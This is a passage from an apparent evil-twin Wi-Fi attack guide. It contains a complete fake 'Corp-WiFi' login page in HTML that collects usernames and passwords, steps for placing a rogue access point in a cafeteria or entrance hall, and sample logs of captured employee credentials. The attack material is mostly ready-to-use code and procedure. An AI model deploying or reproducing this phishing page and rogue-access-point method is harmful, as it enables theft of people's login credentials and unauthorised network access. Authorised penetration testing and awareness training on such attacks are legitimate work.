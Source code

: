 *Phase 3: Capture page creation*
```html
<!-- Credential capture page -->
<!DOCTYPE html>
<html>
<head>
    <title>Corp-WiFi - Authentication</title>
    <style>
        body { font-family: Arial; background: #f0f0f0; }
        .login-box { 
            width: 300px; margin: 100px auto; 
            background: white; padding: 30px;
            border-radius: 10px; box-shadow: 0 0 10px #ccc;
        }
        input { width: 100%; padding: 10px; margin: 10px 0; }
        button { background: #007acc; color: white; padding: 10px 20px; }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>Corp-WiFi Connection</h2>
        <form action="/capture.php" method="post">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Connect</button>
        </form>
        <p><small>Security system updated. Please reconnect.</small></p>
    </div>
</body>
</html>
```

*Phase 4: Positioning and waiting*
```bash
- Position in cafeteria or entrance hall
- Activate Evil Twin AP
- Wait for automatic connections
- Log all authentication attempts
```

**Expected Results**

*Credential capture:*
```
[14:30:15] New connection: iPhone-John (aa:bb:cc:dd:ee:ff)
[14:30:22] Credentials captured:
           Username: john.doe
           Password: Summer2024!
           Device: iPhone-John
           Location: Cafeteria

[14:35:42] New connection: LAPTOP-MARIE (11:22:33:44:55:66)
[14:35:51] Credentials captured:
           Username: marie.martin
           Password: Password123
           Device: Windows 10
           Location: Cafeteria
```
